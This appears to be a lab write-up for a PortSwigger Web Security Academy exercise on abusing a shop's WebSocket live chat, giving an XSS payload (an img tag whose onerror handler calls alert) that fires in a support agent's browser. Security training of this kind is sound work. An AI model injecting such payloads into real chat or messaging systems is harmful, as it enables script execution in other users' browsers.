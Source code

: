 
# Manipulating WebSocket messages to exploit vulnerabilities

This online shop has a live chat feature implemented using WebSockets.

Chat messages that you submit are viewed by a support agent in real time.

To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser.

---------------------------------------------

Reference: https://portswigger.net/web-security/websockets

---------------------------------------------

Generated link: https://0a32005803392a6a81b1cb9d009d0044.web-security-academy.net/chat

Payload:

```
script><img src=1 onerror='alert(1)'></script>
```



![img](images/Manipulating%20WebSocket%20messages%20to%20exploit%20vulnerabilities/1.png)